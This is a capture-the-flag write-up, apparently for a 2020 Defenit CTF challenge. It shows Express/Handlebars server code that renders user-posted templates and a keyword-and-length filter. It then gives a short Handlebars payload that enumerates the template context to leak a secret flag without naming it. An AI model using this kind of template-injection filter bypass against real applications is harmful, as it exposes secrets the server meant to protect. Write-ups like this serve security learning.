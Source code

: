 A variable `FLAG` is passed to view in the part commented with ★ in the following part.
I thought if I post a view that renders it properly I would get the flag.

```javascript
app.get('/', (req, res) => {
    const { p } = req.query;
    if (!p) res.redirect('/?p=index');
    else res.render(p, { FLAG, 'apple': 'mint' });  // ★
});
```

However, if you simply try to post a view written as `{{FLAG}}`, it will be blocked at the place marked with ① in the middleware like below.
Also, posts longer than 200 characters will be blocked.

```javascript
app.use((req, res, next) => {
    const { content } = req.body;

    req.userDir = crypto.createHash('md5').update(`${req.connection.remoteAddress}_${SALT}`).digest('hex');
    req.saveDir = path.join('views', 'temp', req.userDir);

    if (!fs.existsSync(req.saveDir)) {
        fs.mkdirSync(req.saveDir);
    }

    if (typeof content === 'string' && content.indexOf('FLAG') != -1 || typeof content === 'string' && content.length > 200) {  // ①
        res.end('Request blocked');
        return;
    }

    next();
});
```

It seems to be okay setting the final goal to post a view within 200 characters that does not include the character `FLAG`.

### Solution

Finally, referring to [this document](https://handlebarsjs.com/guide/builtin-helpers.html#each), I created the following payload.

```handlebars
{{#each this}}{{@key}} => {{this.toString}}<br>{{/each}}
```

When I actually posted it, the flag was displayed as follows.

![Got the flag of this problem](img/writeup-of-2020-defenit-ctf-english-ver/babyjs_got_the_flag.png?w=543&h=172)
